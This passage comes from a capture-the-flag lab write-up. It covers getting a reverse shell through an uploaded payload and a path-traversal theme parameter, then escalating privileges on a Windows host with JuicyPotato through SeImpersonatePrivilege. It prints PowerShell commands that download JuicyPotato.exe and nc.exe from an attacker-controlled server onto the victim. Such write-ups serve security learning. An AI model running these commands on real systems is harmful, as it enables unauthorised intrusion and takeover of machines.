 	http://10.10.241.66/admin/app/editor/editpost.cshtml


![13]


And we upload our modified payload.

Finally, to receive the shell, we must navigate to the following path, it's ikmportant to have the listener up

	http://10.10.241.66/?theme=../../App_Data/files

We should have received the victim machine's command prompt by now.


![14]


## Privilege escalation

It is important to note that the user who returns the shell to us is a user who is used to manage the web service and has very low privileges.

As in other write-ups, the first thing I do is enumerate the privileges that a user has. In this case, when I do so, I see that the user has the SeImpersonatePrivilege privilege enabled.

Seeing that we have permissions over this service should catch our attention because it implies that we have ensured privilege escalation.

Just like in the Alfred machine, we are going to use the JuicyPotato tool. In real environments, it is highly detected, but it is an alternative to not using Metasploit. [JuicyPotato]( https://github.com/ohpe/juicy-potato/releases)

SeImpersonatePrivilege is a permission that allows a process to impersonate the identity of another user, which is useful for authentication and authorization in server applications and in applications that need to interact with the operating system. However, this permission can also be exploited by an attacker if they gain access to a user account that has the SeImpersonatePrivilege permission and then use it to escalate their own privileges or to execute malicious commands with the user's privileges.

We need to upload that executable to the machine. To do so, we will create an HTTP server with Python and download it from the victim machine using the `Invoke-Expression` tool.

```
powershell -command "iex(New-Object Net.WebClient).downloadFile('http://10.14.49.189:8080/JuicyPotato.exe', 'C:\Users\Public\JuicyPotato.exe')" -bypass executionpolicy"
```

To successfully carry out privilege escalation, we need to upload the netcat binary, which can be found in our Kali Linux system using the `locate nc.exe` command

```
powershell -command "iex(New-Object Net.WebClient).downloadFile('http://10.14.49.189:8080/nc.exe', 'C:\Users\Public\nc.exe')" -bypass executionpolicy"
```

We run JuicyPotato, which can be guided by the guide on the GitHub repository or directly from the help shown in the console.
